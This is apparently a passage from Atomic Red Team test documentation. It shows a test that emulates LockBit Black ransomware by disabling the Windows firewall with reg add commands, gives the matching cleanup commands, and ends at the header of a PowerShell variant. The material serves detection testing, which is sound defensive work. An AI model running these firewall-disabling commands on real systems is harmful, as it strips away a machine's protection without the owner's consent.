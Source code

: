 



<br/>
<br/>

## Atomic Test #20 - LockBit Black - Unusual Windows firewall registry modification -cmd
An adversary tries to modify the windows firewall registry

**Supported Platforms:** Windows


**auto_generated_guid:** a4651931-ebbb-4cde-9363-ddf3d66214cb






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile" /v EnableFirewall /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile" /v EnableFirewall /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile" /v EnableFirewall /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile" /v EnableFirewall /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #21 - LockBit Black - Unusual Windows firewall registry modification -Powershell
An adversary tries to modify the windows firewall registry.

**Supported Platforms:** Windows


**auto_generated_guid:** 80b453d1-eec5-4144-bf08-613a6c3ffe12






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
